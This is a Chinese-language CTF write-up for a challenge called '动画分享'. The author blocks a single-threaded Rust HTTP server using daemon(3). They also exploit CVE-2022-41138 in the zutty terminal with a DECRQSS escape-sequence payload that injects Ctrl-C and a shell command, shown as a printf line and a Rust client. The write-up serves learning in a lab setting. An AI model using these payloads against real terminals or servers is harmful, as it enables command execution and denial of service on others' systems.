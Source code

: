 ## 动画分享

这题让我肝了一个半通宵 🫠。

### 只要不停下 HTTP 服务，响应就会不断延伸

第一题想了很久，因为一开始方向是第二题的。想着如何让程序退出。后来本地调试的时候发现，server 经常卡住。原来这个 Rust 程序是单线程的。如果当前的请求没有处理完，后面的请求就会被阻塞。

但是我们该如何让我们的程序还在运行，但是让检测程序认为我们的程序已经退出了呢？我们可以通过 [`daemon(3)`](https://man7.org/linux/man-pages/man3/daemon.3.html) 函数来实现。

```rust
use nix::unistd::daemon;
use nix::unistd::sleep;

fn main() {
    let stream = std::net::TcpStream::connect("127.0.0.1:8000").unwrap();
    println!("done");
    daemon(false, false).unwrap();
    sleep(1000);
}
```

这里使用了 [nix](https://crates.io/crates/nix) 包来调用系统调用。

- `flag{wa1t_no0O0oooO_mY_b1azIngfA5t_raust_f11r5erVer_??????????}`

### 希望的终端模拟器，连接着我们的羁绊

这一题做的我绝望了。我把 Rust 的 `fileserver` 看了八百遍都没发现可能会 panic 的地方。（但其实看到别人说可以通过在 URL 传入 `\x80` 导致 panic）。

首先，我们注意到题目上注明了「几年前编译的某祖传终端模拟器」，而且 `Dockerfile` 特地编译安装了 `0.12` 版本的 `zutty`。所以我们可以猜测这个终端模拟器可能有问题。

通过 `zutty cve` 可以找到 [CVE-2022-41138](https://nvd.nist.gov/vuln/detail/CVE-2022-41138)，从而进一步找到它的 [POC](https://bugs.gentoo.org/868495)。

进一步挖掘我了解到 `DECRQSS` 是一个什么东西，然后找到了 [这篇文章](https://dgl.cx/2023/09/ansi-terminal-security#mintty-osc50)。几乎是把答案甩在我脸上了。

我构造了一个字符串，它会模拟在 `zutty` 中按 Ctrl-C 并执行 `cat /flag2 > /flag3`。

```
printf "\e[0m\eP\$q\x3\e\\ \eP\$qm\rcat /flag2 > /flag3\r\e\\ \eP\$qm\e\\ "
```

然后我把这个字符串放到 URL 中，就可以拿到 flag 了……吗？？？

```rust
use std::{fs, io::Write, net::TcpStream, thread::sleep};

fn main() {
    let header = b"GET /";
    let res: [u8; 18] = [
        27, 91, 48, 109, 27, 80, 36, 113, 3, 27, 92, 32, 27, 80, 36, 113, 109, 13,
    ];
    let command = b"cat /flag2 > /flag3";
    let res2: &[u8; 12] = &[13, 27, 92, 32, 27, 80, 36, 113, 109, 27, 92, 32];
    let bytes = [header.as_ref(), &res, command, res2].concat();

    let mut stream = TcpStream::connect("127.0.0.1:8000").unwrap();
    stream.write_all(&bytes).unwrap();

    sleep(std::time::Duration::from_secs(1));

    let res = fs::read("/flag3").unwrap();
    let flag = String::from_utf8_lossy(&res);
    println!("{}", flag);
}
```
